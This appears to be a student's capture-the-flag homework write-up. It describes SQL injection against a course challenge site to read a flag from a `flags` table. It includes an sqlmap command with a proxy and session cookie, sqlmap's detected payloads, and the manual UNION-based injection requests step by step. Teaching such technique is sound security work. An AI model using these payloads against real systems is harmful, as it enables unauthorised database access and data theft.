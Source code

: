 # HW1-1: Tormity (bonus)
**0016302 heron**

## Problem
Get flag string from the website http://tor.atdog.tw/ .

## Step
**Goal**:
- visit tor.atdog.tw using 10 different IP from different countries
- SQL Injection the site while using HK IP

**Tool**: hola + sqlmap + curl + microbe

### Obtain 10 Different Country IPs
- Method 1: use Hola as Chrome extension (http://hola.org/)
- Method 2: manual proxy setups (free proxy list, http://letushide.com/)

### Help with sqlmap
Setup cookie and proxy for sqlmap:
```
#!/bin/bash
sqlmap --proxy "http://110.173.49.18:3128" --cookie
"_tor_session=YkFDQURKb0JyVW1sLy9vZjQrMzlMWkx5Mm1JWnI1U3crWXNXZHcyU1R1U2t5bnAzRktVenpkbGpOcmN6cUpCRnJJazFWYUVLUzdHeTN2M3l1NGVMeEVEZHEyTVlpWVorUkI4NzR5c04xMkp1dVFqUlFqbDI2M21mZXJaR0VMTmlnNDcrdWNjUllkU0p3NnFEcTJkTFlKTWZFbWNxOUJmWmlicytUVVlpRW1TTlBOdGRlWDZaNWhwY1RwRWJEU1FSVzY0VFp1OFBYY1pySWFlallVeWlkNXZGMkZ2SkMvRWtaWTd1ZHQ3dFRkYXVhK1cwd0ZBWEhYMnVQMEtXdmNUb0Q4Qm5Ub1EyOGRadlZXUlZnRmgwVE1SQXVxYjdWbGxpZExkVTNkaVpkc3I5MEl5aFpKM0xEZ0oxdHkyZ2lRSkYtLXlEdFpEWkhvejF1OGVVamFOM2tHVXc9PQ%3D%3D--efa48ea6dd3a35f67c55eb0d3c50556881729bc7"
-u "tor.atdog.tw/news/1"
```

Output:
```
---
Place: URI
Parameter: #1*
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://tor.atdog.tw:80/news/1) AND 6076=6076 AND (2468=2468

    Type: UNION query
    Title: MySQL UNION query (NULL) - 5 columns
    Payload: http://tor.atdog.tw:80/news/1) UNION ALL SELECT NULL,NULL,CONCAT(0x7171706b71,0x4a446f55477064424663,0x7174727871),NULL,NULL#
---
back-end DBMS: MySQL >= 5.0.0
```

### SQL Injection
I tried following SQL Injection requests to understand the syntax on the target server:

#### Injectable?
```
http://tor.atdog.tw/news/1'
```
500 Error, which means it's injectable

#### Syntax Guessing
```
http://tor.atdog.tw/news/0) OR (1=1
```
200 Success getting the article, which means that the SQL syntax is using '(' and applying WHILE or HAVING following by boolean checkings

#### Column Number
```
http://tor.atdog.tw/news/0) UNION SELECT NULL FROM `flags` %23
```
to
```
http://tor.atdog.tw/news/0) UNION SELECT NULL, NULL, NULL, NULL, NULL FROM `flags` %23
```
200 for 5 columns, which means the the original SQL syntax request for 5 columns

#### Output Result in Right Column
```
http://tor.atdog.tw/news/1) UNION SELECT `flag`, NULL, NULL, NULL, NULL FROM `flags` %23
```
to
```
http://tor.atdog.tw/news/1) UNION SELECT NULL, `flag`, NULL, NULL, NULL FROM `flags` %23
```
200 for putting `flag` at second column

## Solution
Get flag string be printed on site:
```
http://tor.atdog.tw/news/1) UNION SELECT NULL, `flag`, NULL, NULL, NULL FROM `flags` %23
```

## Tricky Part
I had wasted lots of time by using '-- ' at the end of the SQL injection code, which gave me errors. However, by refering to SQL official document, we know:
> From a “#” character to the end of the line.

> From a “-- ” sequence to the end of the line. In MySQL, the “-- ” (double-dash) comment style requires the second dash to be followed by at least one whitespace or control character (such as a space, tab, newline, and so on). This syntax differs slightly from standard SQL comment syntax, as discussed in Section 1.8.2.5, “'--' as the Start of a Comment”.

So,

- If using '#', we have to do URL encode manually; otherwise, it will be seen as hash symbol for URL routing
- If using '-- ', we should put something after it; otherwise, the following space will be dropped and error occurs. Success example is here:
```
http://tor.atdog.tw/news/1) UNION SELECT NULL, `flag`, NULL, NULL, NULL FROM `flags` -- an apple a day
```


## More
I am listing the helpful tools while I was SQL injecting the site:

- [SQLite Manager (Firefox Extension)](https://addons.mozilla.org/en-US/firefox/addon/sqlite-manager/): testing SQL syntax in browser
- [sqlmap](http://sqlmap.org/): help me understand the target faster, or even dump everything
- [Microbe](https://chrome.google.com/webstore/detail/microbe/khejlnipbheaalinebbiadhmajjlmdil?hl=en): Chrome Extension for better URL editing and cookie managing
